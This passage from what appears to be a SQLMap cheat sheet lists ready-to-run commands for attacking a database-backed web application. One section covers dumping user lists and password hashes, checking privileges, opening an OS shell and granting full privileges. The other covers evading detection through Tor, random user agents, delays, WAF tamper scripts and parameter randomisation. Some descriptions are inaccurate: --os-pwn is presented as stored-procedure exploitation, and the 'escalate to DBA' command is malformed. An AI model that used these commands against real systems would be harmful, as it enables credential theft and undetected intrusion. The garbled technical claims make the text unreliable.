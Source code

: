 #### Privilege Escalation

SQLMap can be used to escalate privileges by exploiting weak configurations or leveraging vulnerable stored procedures.

1. **Enumerating Database Users**: Enumerates all database users.
    ```bash
    sqlmap -u <target_url> --users
    ```
2. **Dumping Password Hashes**: Dumps password hashes of database users.
    ```bash
    sqlmap -u <target_url> --passwords
    ```
3. **Identifying Privileged Users**: Identifies users with administrative or elevated privileges.
    ```bash
    sqlmap -u <target_url> --privileges
    ```
4. **Privilege Escalation via Vulnerable Stored Procedures**: Exploits vulnerable stored procedures to escalate privileges.
    ```bash
    sqlmap -u <target_url> --os-pwn
    ```
5. **Escalating to DBA**: Attempts to escalate the current user to a DBA (Database Administrator) role.
    ```bash
    sqlmap -u <target_url> --dbs --privileges --sql-query="GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost'"
    ```

#### Defense Evasion Techniques

SQLMap offers several options for evading detection by IDS/IPS systems and other defensive measures.

1. **Using Random User-Agent Strings**: Randomizes the User-Agent string to avoid detection by web application firewalls (WAFs).
    ```bash
    sqlmap -u <target_url> --random-agent
    ```
2. **Adding Delays Between Requests**: Adds a delay of 5 seconds between each request to avoid triggering rate-limiting mechanisms.
    ```bash
    sqlmap -u <target_url> --delay=5
    ```
3. **Using Tor for Anonymity**: Routes SQLMap traffic through the Tor network for anonymity.
    ```bash
    sqlmap -u <target_url> --tor --tor-type=SOCKS5 --check-tor
    ```
4. **Evading WAFs with Tampering Scripts**: Uses tamper scripts to modify SQL queries and evade WAFs (e.g., `--tamper=space2comment`).
    ```bash
    sqlmap -u <target_url> --tamper=<tamper_script>
    ```
5. **Randomizing HTTP Parameters**: Randomizes specified HTTP parameters to avoid detection based on static analysis.
    ```bash
    sqlmap -u <target_url> --randomize=param1,param2
    ```
